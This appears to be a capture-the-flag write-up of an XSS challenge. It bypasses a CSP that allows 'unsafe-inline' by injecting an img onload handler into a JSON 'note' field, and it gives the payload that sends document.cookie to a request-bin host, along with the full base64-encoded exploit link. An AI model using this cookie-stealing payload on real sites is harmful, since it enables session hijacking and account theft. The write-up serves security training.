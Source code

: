 # XSS

The csp is the following:
```
Content-Security-Policy: script-src 'self' https://cdn.jsdelivr.net 'unsafe-inline'; style-src 'unsafe-inline' 'self' https://cdn.jsdelivr.net
```

First of all, I wanted to check the "Copy Link" functionality, and then visiting the url copied, with the console open, we see that it unpacks the url param in:
```json
{"players":[{"name":"Player1","level":1,"bufs":0,"rbufs":0,"note":" "},{"name":"Player2","level":1,"bufs":0,"rbufs":0,"note":" "}]}
```

So our note goes in the json.

Now, let's find a working exploit.

'unsafe-inline' lets us execute any script dynamically, so the concept is to load an image, and `onload` redirect the page to my request bin.

```
<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/6/61/HTML5_logo_and_wordmark.svg/1200px-HTML5_logo_and_wordmark.svg.png" onload="window.location.href='https://requestbin.training.jinblack.it/t8drnzt8?cookie='+document.cookie">
```

Now attach the payload to the json:

```json
{"players":[{"name":"Player1","level":1,"bufs":0,"rbufs":0,"note":"</textarea><img src=\"https://upload.wikimedia.org/wikipedia/commons/thumb/6/61/HTML5_logo_and_wordmark.svg/1200px-HTML5_logo_and_wordmark.svg.png\" onload=\"window.location.href='https://requestbin.training.jinblack.it/t8drnzt8?cookie='+document.cookie\">"}]}
```

And get the base64 of the payload. Then generate this link:

```
http://pointer.ctf.offdef.it/eyJwbGF5ZXJzIjpbeyJuYW1lIjoiUGxheWVyMSIsImxldmVsIjoxLCJidWZzIjowLCJyYnVmcyI6MCwibm90ZSI6IjwvdGV4dGFyZWE+PGltZyBzcmM9XCJodHRwczovL3VwbG9hZC53aWtpbWVkaWEub3JnL3dpa2lwZWRpYS9jb21tb25zL3RodW1iLzYvNjEvSFRNTDVfbG9nb19hbmRfd29yZG1hcmsuc3ZnLzEyMDBweC1IVE1MNV9sb2dvX2FuZF93b3JkbWFyay5zdmcucG5nXCIgb25sb2FkPVwid2luZG93LmxvY2F0aW9uLmhyZWY9J2h0dHBzOi8vcmVxdWVzdGJpbi50cmFpbmluZy5qaW5ibGFjay5pdC90OGRybnp0OD9jb29raWU9Jytkb2N1bWVudC5jb29raWVcIj4ifV19
```
